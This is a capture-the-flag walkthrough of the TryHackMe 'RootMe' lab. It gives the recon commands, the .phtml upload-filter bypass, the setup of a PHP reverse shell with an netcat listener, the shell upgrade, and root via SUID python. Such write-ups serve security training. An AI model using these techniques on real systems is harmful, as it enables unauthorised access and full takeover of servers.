

# RootMe

**Tools: nmap, gobuster, netcat.**

### Task 1 — Deploy the machine
First step is connecting to the THM’s VPN through OpenVPN in your machine (for example, your Kali VM) or use the in-browser THM AttackBox. After that, just click on Start Machine to load the VM.

### Task 2 — Reconnaissance
Scan the machine, how many ports are open?  

I ran this nmap SYN scan to get the open ports and services’ versions from the target machine, in my case it had the IP 10.10.73.226:  
`nmap -n -sSV -Pn 10.10.73.226`


The scan shows that the ports 22 and 80 are open, so…  
`Answer: 2`

**What version of Apache is running?**  
As shown in the scan…  
`Answer: 2.4.29`

**What service is running on port 22?**  
Once again, as shown in the scan…  
`Answer: SSH`

**Find directories on the web server using the GoBuster tool.**  
*Hint: gobuster dir -u 10.10.73.226 -w WORDLIST_PATH*  
For this one you just need to click on the ‘Completed’.  

**What is the hidden directory?**  
I ran gobuster with the following command, to find the directories:  
`gobuster dir -u 10.10.73.226 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`


We got a few results right away, and upon testing them we get the right answer…  
`Answer: /panel/`

### Task 3 — Getting a Shell
**Find a form to upload and get a reverse shell, and find the flag.**  
*Hint: Search for “file upload bypass” and “PHP reverse shell”.* 
The file with the flag will be “user.txt”  
Upon accessing the /uploads/ directory, we see that it is empty. In the /panel/ directory, we see an upload form.  



I went to the following website to get the php reverse shell code (file):  
http://pentestmonkey.net/tools/web-shells/php-reverse-shell  
As shown in the instructions, you should download the file, extract it and change the following fields on the php-reverse-shell.php file, based on your host machine’s IP in the THM network, (in my case, 10.6.66.7), and your port of choice (you can leave the default port):  
```
$ip = ‘127.0.0.1’;  
$port = 1234;
```

If you try to upload the .php file, you’ll receive a “PHP not allowed” error. The solution is to upload a phtml file (“.phtml files tell the webserver that those are html files with dynamic content which is generated by the server… just like .php files in a browser behave. So, in productive usage you should experience no difference from .phtml to .php files.” - taken from a StackOverflow post), so you just need to change its extension.  
I uploaded the file and upon checking the /uploads/ directory, I’ve confirmed that it was successfully uploaded.  


Next thing, I started a Netcat listening session on my machine, waiting for the reverse shell to call back:  
`nc -vnlp 1234`

After that, just click on the file in the /uploads/ directory, so it runs the command, and you’ll get a shell on your terminal.


It’s a simple (dumb) shell, so we still need to upgrade it to a fully interactive shell. To do that, we can use the following Python pty module to spawn the shell:  
`python -c ‘import pty; pty.spawn(“/bin/bash”)’`

You should get the fully interactive shell right away.  
Running a “find / -name user.txt” command, we find the “user.txt” file at “/var/www/”, so we just need to “cat /var/www/” to grab the flag.  

### Task 4 — Privilege escalation
**Search for files with SUID permission, which file is weird?**  
*Hint: find / -user root -perm /4000*  
Next, we run the suggested command, but we redirect any error output to /dev/null, so we get a clearer result:  
`find / -user root -perm /4000 2> /dev/null`

Right away, we find a few options, so we can test some of them. Upon testing, we see that the Python file has the following permissions:


The file has the SUID and SGID permissions (the ‘s’ in the ‘execute’ fields of the permissions, instead of either ‘-’ or ‘x’). A file with SUID/SGID permissions will always execute as the user/group who owns the file. In this case, it’s root!  
`Answer: /usr/bin/python`

**Find a form to escalate your privileges.**  
*Hint: Search for gtfobins*  
Once again, you just need to click on the ‘Completed’.  

**root.txt**
As suggested previously, we took a look at [**GTFObins**](https://gtfobins.github.io/). More specifically, in the SUID section, Python row (click on the SUID box in this row). You’ll be redirected to [**here**](https://gtfobins.github.io/gtfobins/python/#suid). To get permanent root privileges, I ran the following command:  
`/usr/bin/python -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’`


Next up, we can search for the “root.txt” file:  
`find / -name root.txt`


And then we can finally read the file and get the last flag!  
`cat /root/root.txt`
